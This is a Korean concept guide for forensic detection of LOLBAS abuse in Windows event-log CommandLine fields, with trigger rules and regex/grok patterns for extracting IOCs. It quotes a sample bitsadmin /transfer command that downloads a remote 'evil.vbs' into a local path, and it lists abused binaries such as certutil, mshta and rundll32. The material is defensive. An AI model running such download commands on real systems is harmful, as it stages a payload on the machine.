


# forensic.md

## 문서 목적

본 문서는 **Windows LOLBAS CommandLine Forensic Concept Guide** 입니다.
즉, Windows 이벤트 로그의 `CommandLine` 필드에서 LOLBAS 행위를 어떻게 바라보고,
어떤 구조로 탐지와 파싱을 분리하며,
최종적으로 어떤 값을 추출 대상으로 삼아야 하는지를 설명하는 **개념 정리 문서**입니다.

이 문서는 구현 문서가 아니라 **출발점 문서**입니다.
구체적인 YAML 룰 정의는 **`guide.v2.md`** 에서,
YAML 을 실제 ETL/backend 에서 해석하고 실행하는 기준은 **`guide-etl.v2.md`** 에서 관리합니다.

## 문서 관계

- `forensic.md`: 개념 정리, 문제 정의, 분석 구조, 트리거/대상/추출의 기본 모델
- `guide.v2.md`: 보안 담당자 관점의 YAML 룰 정의, 필드 규격, 운영용 패턴 v2
- `guide-etl.v2.md`: ETL/backend 관점의 YAML 로딩, trigger 평가, parser 적용, post_process 해석

즉, 세 문서의 관계는 아래와 같습니다.

```text
forensic.md
  → 왜 이 구조로 분석하는가
  → 무엇을 추출 대상으로 볼 것인가

guide.v2.md
  → 그 개념을 YAML 룰로 어떻게 선언할 것인가

guide-etl.v2.md
  → 그 YAML 을 ETL/backend 에서 어떻게 해석하고 처리할 것인가
```


## Mermaid 구성도

이 문서는 **개념 정리 문서**이므로, 하나만 고른다면 **Sequence Diagram** 이 더 적합합니다.
이 문서의 핵심이 객체 구조 자체보다,

- 이벤트 로그가 들어오고
- LOLBAS 트리거를 식별하고
- `CommandLine` 을 대상으로
- grok/regex 로 값을 추출하고
- 그 결과가 YAML 룰과 ETL 문서로 이어지는

**처리 흐름**을 설명하는 데 있기 때문입니다.

다만, 이해를 돕기 위해서는 아래처럼 두 가지를 함께 두는 것이 가장 좋습니다.

- **Class Diagram**: 문서/구성요소 간 역할과 관계 설명
- **Sequence Diagram**: 실제 분석 흐름 설명

### 1) Class Diagram



### 2) Sequence Diagram



---

# 1. 문제 정의

Windows XML 이벤트 로그에는 프로세스 실행 흔적이 `CommandLine` 로 남습니다.
이 값에는 LOLBAS(Living Off The Land Binaries and Scripts) 악용 행위의 핵심 인자가 그대로 포함되는 경우가 많습니다.

예를 들어 아래와 같은 명령행이 기록될 수 있습니다.

```text
bitsadmin /transfer mydownload http://example.com/download.log:evil.vbs C:\temp\local.vbs
```

이 경우 포렌식 관점에서 중요한 것은 단순히 `bitsadmin.exe` 가 실행되었다는 사실만이 아닙니다.
핵심은 **명령행 안에서 실제 악성 행위와 관련된 인자 값을 분리하여 추출하는 것**입니다.

위 예시에서는 특히 아래 값이 중요합니다.

```text
C:\temp\local.vbs
```

즉, 공격자가 최종적으로 생성하거나 저장하려는 **로컬 대상 파일 경로**가 분석 핵심입니다.

---

# 2. 기본 분석 구조

정리하려는 구조는 아래 3단계로 보면 됩니다.

## 2-1. 트리거 정의

먼저 **어떤 LOLBAS 행위를 볼 것인지**를 정합니다.

예:

- `bitsadmin`
- `certutil`
- `mshta`
- `regsvr32`
- `rundll32`
- `powershell`
- `cscript`
- `wscript`

즉, **트리거는 실행 파일명 또는 LOLBAS 패턴**입니다.

예시:

- `NewProcessName = C:\Windows\System32\bitsadmin.exe`
- 또는 `CommandLine` 안에 `bitsadmin /transfer` 포함

## 2-2. 대상 필드 지정

분석 대상은 **`CommandLine`** 입니다.

예:

```text
bitsadmin /transfer mydownload http://example.com/download.log:evil.vbs C:\temp\local.vbs
```

이 문자열 전체에서 필요한 값을 꺼냅니다.

즉:

- 트리거 필드: `NewProcessName` 또는 `CommandLine`
- 파싱 대상 필드: `CommandLine`

이렇게 분리하면 탐지와 추출이 명확해집니다.

## 2-3. 추출 값에 대한 grok/regex 작성

여기서 핵심은 **CommandLine 안에서 원하는 인자만 캡처**하는 것입니다.

지금 예제에서는 최종적으로 추출하려는 값이:

```text
C:\temp\local.vbs
```

이므로, grok 또는 정규식으로 **마지막 destination path**를 뽑으면 됩니다.

개념적으로는 아래 구조입니다.

```text
bitsadmin /transfer <jobname> <remote_source> <local_destination>
```

즉, 마지막 값을 추출하는 패턴을 만들면 됩니다.

---

# 3. 예시 설계

## 3-1. 탐지 조건

```text
NewProcessName endswith bitsadmin.exe
AND
CommandLine contains "/transfer"
```

## 3-2. 파싱 대상

```text
Field = CommandLine
```

## 3-3. 추출 목표

- `job name`
- `remote source`
- `local destination`

---

# 4. 정규식과 grok 예시

## 4-1. 일반 정규식 예시

```regex
(?i)bitsadmin\s+/transfer\s+(?<job>\S+)\s+(?<src>\S+)\s+(?<dst>.+)$
```

이렇게 두면:

- `job` = `mydownload`
- `src` = `http://example.com/download.log:evil.vbs`
- `dst` = `C:\temp\local.vbs`

## 4-2. grok 스타일 예시

환경마다 grok 문법 차이는 있지만, 보통 이런 식으로 설계합니다.

```text
%{WORD:lolbas}\s+/transfer\s+%{NOTSPACE:job}\s+%{NOTSPACE:src}\s+%{GREEDYDATA:dst}
```

이 경우:

- `lolbas` → `bitsadmin`
- `job` → `mydownload`
- `src` → `http://example.com/download.log:evil.vbs`
- `dst` → `C:\temp\local.vbs`

---

# 5. 실무 관점 정리

실무적으로는 아래처럼 정의하면 됩니다.

## 5-1. 룰 이름

```text
LOLBAS_BITSADMIN_TRANSFER_DEST_EXTRACT
```

## 5-2. 트리거

- 프로세스명: `bitsadmin.exe`
- 또는 `CommandLine` 내 `bitsadmin /transfer`

## 5-3. 대상 필드

- `CommandLine`

## 5-4. 파싱 패턴

```regex
(?i)bitsadmin\s+/transfer\s+(?<job>\S+)\s+(?<src>\S+)\s+(?<dst>.+)$
```

## 5-5. 추출 결과

- `dst`

---

# 6. 중요한 관점

이 작업은 사실 두 단계로 나뉩니다.

## 6-1. 1단계: 탐지

이 로그가 `bitsadmin` LOLBAS 행위인지 식별합니다.

## 6-2. 2단계: 파싱

탐지된 `CommandLine`에서 원하는 IOC를 추출합니다.

즉, 구조는 아래와 같습니다.

- **트리거** = bitsadmin 같은 LOLBAS 정의
- **대상** = `CommandLine`
- **처리** = grok/정규식으로 값 추출

이 흐름이 전체 설계의 기본입니다.

---

# 7. 이 문서에서 다음 문서로 이어지는 기준

이 문서는 개념 정리 문서이므로, 여기서 확정되는 핵심은 아래 3가지입니다.

## 7-1. 분석 단위 확정

- 프로세스 실행 로그
- 핵심 필드: `CommandLine`

## 7-2. 모델 확정

- 트리거 정의
- 대상 필드 지정
- 추출 패턴 정의

## 7-3. 후속 문서 연결

이 개념은 다음 두 문서로 이어집니다.

### `guide.v2.md`

위 개념을 **보안 담당자가 관리하는 YAML 룰 정의**로 구체화합니다.

예:
- `trigger`
- `target_field`
- `parser.pattern`
- `output`
- `post_process`

### `guide-etl.v2.md`

위 YAML 을 **ETL/backend 가 어떻게 해석하고 실행하는지**를 정리합니다.

예:
- YAML 로딩
- trigger 평가
- regex 적용
- output 생성
- post_process 해석
- normalized result 저장

---

# 8. 결론

`forensic.md` 는 세 문서 중 가장 앞단의 문서입니다.
즉, 구현보다 먼저 **무엇을 보고, 무엇을 추출할 것인가**를 정리하는 문서입니다.

따라서 이 문서의 역할은 다음과 같습니다.

- LOLBAS 기반 포렌식 분석의 문제 정의
- `CommandLine` 중심 분석 구조 정리
- 트리거/대상/추출의 기본 모델 확정
- YAML 룰 문서와 ETL 실행 문서의 출발점 제공

즉, 두 후속 문서인 `guide.v2.md` 와 `guide-etl.v2.md` 는
모두 이 문서에서 정의한 개념 구조를 기반으로 작성됩니다.
